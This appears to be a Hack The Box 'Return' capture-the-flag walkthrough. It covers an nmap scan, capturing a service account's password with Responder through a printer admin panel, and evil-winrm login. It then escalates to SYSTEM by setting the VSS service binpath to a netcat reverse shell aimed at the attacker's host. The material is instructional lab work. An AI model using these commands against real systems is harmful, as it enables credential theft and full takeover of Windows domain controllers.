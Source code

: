 # ENUMERATION

## NMAP

```bash
nmap -p- --min-rate=1000 -sVC -v -oN nmap 10.10.11.108

Increasing send delay for 10.10.11.108 from 10 to 20 due to 72 out of 239 dropped probes since last increase.
Increasing send delay for 10.10.11.108 from 20 to 40 due to 28 out of 93 dropped probes since last increase.
Nmap scan report for 10.10.11.108
Host is up (0.064s latency).
Not shown: 65510 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-27 07:10:51Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-07-27T07:11:47
|_  start_date: N/A
|_clock-skew: -5m10s

```

## WEB SERVER

On the website we can see it has a printer service

We also see a settings.php page where we have some info about the printers, we can also modify the server address

### Gettings creds using responder

Now if we add our ip address and turn on the respnonder and update the settings we have the creds.

<img width="673" height="240" alt="image" src="https://github.com/user-attachments/assets/004e2aa0-d3fa-4a67-9fb0-d647527e54fc" />

```bash
responder -I tun0 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.6.0

```

<img width="533" height="221" alt="image" src="https://github.com/user-attachments/assets/936f85a2-a159-4173-b272-2aa5e14fc23e" />

# Exploitation

## USER FLAG

```bash
evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'                       
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents> ls ../Desktop 

    Directory: C:\Users\svc-printer\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        7/27/2025   8:21 AM             34 user.txt
```

## SHELL AS ROOT

```bash
whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

Here we see we have many privs but the bets one is server operators

In Windows Server environments, the Server Operators group is **a built-in security group that grants members specific administrative privileges for managing servers**. While not as powerful as Domain Admins, they can perform server-related tasks and log in locally, including on Domain Controllers, without needing full Domain Admin rights. 

### Modifying path of VSS service

Now, we can create a service named **vss** and configure it to execute our command when it starts. We can add a reverse shell as the start command, which will give us a root shell when the service runs.

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload nc.exe
                                        
Info: Uploading /home/kali/htb/return/nc.exe to C:\Users\svc-printer\Documents\nc.exe
                                        
Data: 79188 bytes of 79188 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config VSS binpath="C:\Users\svc-printer\Documents\nc.exe -e cmd 10.10.14.4 9001"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start VSS
```

Simultaneously, we can listen on port **9001**, and once the service starts, we will receive a shell as **root**.

```bash
nc -lnvp 9001 
listening on [any] 9001 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.108] 49732
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
